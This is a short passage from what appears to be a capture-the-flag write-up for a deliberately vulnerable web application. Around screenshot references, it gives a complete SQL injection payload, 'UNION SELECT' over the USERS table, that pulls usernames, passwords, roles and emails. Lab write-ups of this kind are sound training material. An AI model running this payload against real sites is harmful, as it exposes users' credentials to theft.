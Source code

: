    <img src="../assets/difficulty4/user_credentials_7.png" alt="payload result" width="500px">

   - To trigger the challenge flag, it was necessary to include the `email` field in the injection query, resulting in the final payload: `test')) UNION SELECT username, password, role, deletedAt, isActive, createdAt, id, email, profileImage FROM USERS--`.

   <img src="../assets/difficulty4/user_credentials_8.png" alt="new payload result" width="500px">
